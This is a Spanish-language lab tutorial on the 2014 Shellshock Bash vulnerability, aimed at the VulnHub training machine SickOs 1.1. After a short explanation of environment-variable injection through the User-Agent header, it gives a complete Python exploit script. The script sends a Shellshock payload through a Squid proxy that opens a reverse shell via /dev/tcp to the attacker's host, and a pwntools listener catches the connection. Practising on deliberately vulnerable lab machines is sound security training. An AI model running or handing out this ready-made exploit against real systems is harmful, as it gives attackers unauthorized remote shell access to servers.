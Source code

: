 
Un ataque **Shellshock** es un tipo de ataque informático que aprovecha una vulnerabilidad en el **intérprete de comandos Bash** en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática.

Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar programas maliciosos, etc.

La vulnerabilidad Shellshock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de shell. El problema radica en la forma en que Bash maneja las variables de entorno. Los atacantes pueden inyectar código malicioso en estas variables de entorno, las cuales Bash ejecuta sin cuestionar su origen o contenido.

Los atacantes pueden explotar esta vulnerabilidad a través de diferentes vectores de ataque. Uno de ellos es a través del **User-Agent**, que es la información que el navegador web envía al servidor web para identificar el tipo de navegador y sistema operativo que se está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

A continuación se proporciona el enlace directo para la descarga de la máquina ‘**SickOs 1.1**‘. Esta máquina corresponde a la misma que estuvimos enumerando  solo que en este caso procederemos con la fase de explotación haciendo uso de esta técnica:

Un script en python para ganar acceso a la maquina  través del **User-Agent**
```python
File: shell_shock.py
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/python3
   2   │ 
   3   │ import sys, signal, requests, threading
   4   │ from pwn import *
   5   │ 
   6   │ def def_handler(sig,frame):
   7   │     print("\n\n[!] Saliendo ....\n")
   8   │     sys.exit(1)
   9   │ 
  10   │#Ctrl+c
  11   │ signal.signal(signal.SIGINT,def_handler)
  12   │ 
  13   │ main_url = "http://127.0.0.1/cgi-bin/status"
  14   │ 
  15   │ squid_proxy = {'http': 'http://10.47.1.173:3128'}
  16   │ 
  17   │ lport = 443
  18   │ 
  19   │ def shellshock_attack():
  20   │ 
  21   │     headers = {'User-Agent': "() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.47.1.153/443 0>&1'"}
  22   │ 
  23   │     r = requests.get(main_url, headers=headers, proxies=squid_proxy)
  24   │ 
  25   │ 
  26   │ if __name__ == "__main__":
  27   │ 
  28   │     try:
  29   │         threading.Thread(target=shellshock_attack, args=()).start()
  30   │ 
  31   │     except Exception as e:
  32   │         log.error(str(e))
  33   │ 
  34   │     shell = listen(lport, timeout=20).wait_for_connection()
  35   │ 
  36   │     if shell.sock is None:
  37   │         log.failure("No se pudo establecer la conexion")
  38   │         sys.exit(1)
  39   │     else:
  40   │         shell.interactive()
```
-   **SickOs 1.1**: [https://www.vulnhub.com/entry/sickos-11,132/](https://www.vulnhub.com/entry/sickos-11,132/)